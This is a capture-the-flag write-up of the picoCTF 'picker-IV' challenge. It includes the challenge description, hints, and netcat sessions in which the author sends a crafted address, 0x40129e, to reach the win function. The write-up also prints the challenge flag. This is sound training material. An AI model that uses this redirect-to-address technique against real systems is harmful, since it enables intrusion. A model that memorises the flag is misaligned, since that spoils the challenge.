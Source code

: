 ## Description
Can you figure out how this program works to get the flag? Connect to the program with netcat: `$ nc saturn.picoctf.net 64321` The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV.c). The binary can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV).

## Hints
1. With Python, there are no binaries. With compiled languages like C, there is source code, and there are binaries. Binaries are created from source code, they are a conversion from the human-readable source code, to the highly efficient machine language, in this case: x86_64.
2. How can you find the address that `win` is at?

## Solution


```bash
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation]
└─$ nc saturn.picoctf.net 64321
Enter the address in hex to jump to, excluding '0x': 0x02
You input 0x2
Segfault triggered! Exiting.
                                                                                   
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation]
└─$ nc saturn.picoctf.net 64321
Enter the address in hex to jump to, excluding '0x': AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
You input 0xffffffff
Segfault triggered! Exiting.
 -
 -
 -
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation]
└─$ nc saturn.picoctf.net 64321
Enter the address in hex to jump to, excluding '0x': 0x40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}

```

## Flag
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}

## Aditional Notes

## References
